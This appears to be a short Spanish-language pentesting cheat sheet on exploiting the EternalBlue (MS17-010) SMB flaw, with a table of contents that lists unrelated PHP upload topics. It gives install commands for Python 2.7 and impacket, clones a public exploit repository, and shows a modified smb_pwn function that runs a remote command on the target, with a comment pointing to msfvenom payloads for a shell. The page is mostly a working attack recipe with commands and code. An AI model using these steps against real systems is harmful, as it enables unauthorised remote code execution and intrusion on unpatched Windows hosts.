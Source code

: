 # EternalBlue

> para explotar el eternalblue necesito hacerlo con python2.7, y usa herramientas de impacket.

## Summary

* [Php](#php)
	* [Subida de archivo](#subida-de-archivos)
	* [Content Type](#content-type)
	* [Magic Number](#magic-number)

## Install python2.7

sudo apt-get install python2.7

## install pip2.7

wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2.7 get-pip.py

- pip2.7 install impacket 
	+ esta opción nos pone problemas
- pip2.7 install impacket==0.9.22
	+ esta es la solución

## clonar el repositorio

git clone https://github.com/worawit/MS17-010.git

y listo podemos ejecutar el binario

python2.7 checker.py

y modificamos el script `zzz_exploit.py`

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    
    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    service_exec(conn, r'cmd /c ping 10.10.14.2')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."

```
{: .nolineno}
